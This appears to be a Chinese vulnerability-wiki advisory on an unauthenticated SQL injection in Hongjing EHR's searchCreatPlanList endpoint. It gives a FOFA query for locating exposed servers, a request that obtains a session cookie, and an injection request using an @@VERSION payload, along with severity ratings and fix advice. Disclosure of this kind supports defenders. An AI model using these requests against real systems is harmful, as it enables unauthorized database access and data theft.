

#  宏景EHR-searchCreatPlanList-sql注入 

# 漏洞描述

宏景EHR-searchCreatPlanList-sql注入漏洞，未授权的攻击者可执行恶意sql语句导致服务器数据库信息泄露甚至被攻陷。

# 影响版本

宏景EHR

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="HJSOFT-HCM"

POC/EXP：获取cookie

```
GET /templates/index/getpassword.jsp HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

```




POC/EXP：携带cookie访问

```
GET /train/plan/searchCreatPlanList.do?b_selectPlan=query&selectID=1'%2B(1-@@VERSION)%2B')--+ HTTP/1.1
Host: 127.0.0.1
Cookie: JSESSIONID=555A25C7E278A92CE7AC9E8FE0F9E916
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
```


# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
